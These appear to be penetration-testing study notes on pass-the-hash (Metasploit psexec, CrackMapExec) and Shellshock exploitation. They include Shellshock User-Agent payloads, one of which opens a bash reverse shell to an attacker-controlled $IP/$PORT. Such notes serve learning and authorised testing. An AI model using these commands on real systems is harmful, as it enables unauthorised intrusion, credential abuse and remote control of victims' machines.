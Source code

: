 ```bash
``` 
windows version >=8.1 doesnt store clear text creds
lsa_secrets could contain clear text creds

### pass the hash
```bash
- WITH PSEXEC MSF MODULE
you need both LM:NT hash --> hashdump to get it

> use smb/psexec
> set smbuser, smbpass, rhosts
> set target $WHATEVER_TARGET_WORKS_TRY_NATIVE_UPLOAD

- WITH CME
cme smb $IP -u Administrator -H $HASH
cme smb $IP -u Administrator -H $HASH -x "ipconfig"
```


# LINUX

frequently exploited services.
- Apache
- SSH
- FTP
- SAMBA

### Apache
##### Shellshock
```bash
CVE-2014-6271
family of vulners in bash V1.3 that allows the execution of remote arbitrary commands via bash on a webserver.

It occurs because Bash mistakenly executes trailing commands after a series of characters : (){:;};

Apache servers configured to run CGI scripts or .sh scripts are vulnerable to the attack. - CGI scripts are used by Apache to execute cmds on linux systems and display the output to client.

ATTACK CHAIN
- locate script/input vector to communicate with bash
- Find CGI scripts on apache server.


DETECTION 
--script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"


MANUAL EXPLOITATION
- in user agent field pass the following
> () { :; }; echo; echo; /bin/bash -c 'whoami'
> () { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/$IP/$PORT 0>&1'


MSF
> use apache_mod_cgi
> set rhosts & targeturi
```
